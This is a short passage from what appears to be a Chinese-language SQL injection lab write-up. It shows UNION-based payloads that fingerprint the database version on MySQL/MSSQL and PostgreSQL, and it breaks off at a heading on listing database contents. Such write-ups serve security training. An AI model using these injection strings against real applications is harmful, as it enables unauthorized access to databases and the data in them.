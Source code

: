 获取数据库版本：`' and 1=2 union select @@version,2 -- `

![image-20240909201703439](./imgs/image-20240909201703439.png)

PostgreSQL 查询数据库应为`' union select version(),null-- '`，查询结果为 200，说明数据库是PostgreSQL

![image-20240909202219263](./imgs/image-20240909202219263.png)

## 列出非Oracle数据库上的数据库内容

